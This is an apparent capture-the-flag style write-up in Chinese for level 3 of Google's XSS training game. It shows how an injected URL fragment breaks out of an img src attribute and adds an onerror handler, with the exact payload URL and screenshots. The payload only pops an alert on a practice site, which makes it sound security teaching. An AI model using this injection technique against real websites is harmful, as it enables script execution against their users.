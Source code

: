 # Level-3

## 攻擊原理

#### 網頁原始碼:
- index.html

#### 偽造 img tag:
- 使最後渲染的程式碼變成

```html
<img src='/static/level3/cloud" + num + onerror="alert('done'); + ".jpg' />
```

## 攻擊方法
在網址利列中插入 'onerror="alert('done');"
```
https://xss-game.appspot.com/level3/frame#1'onerror="alert('done');"
```

## 截圖

#### Code: (page onload)
![image](https://github.com/yillkid/ntc-white-hat/assets/185872/67b7264a-d69c-4d7b-af1c-ee3d67b1988e)

#### 或 click:
![image info](./01.png)

#### Request:
![image info](./00.png)

#### chooseTab:
![image](https://github.com/yillkid/ntc-white-hat/assets/185872/7541da8c-ff4e-4617-8430-10cdf3a3b9f6)

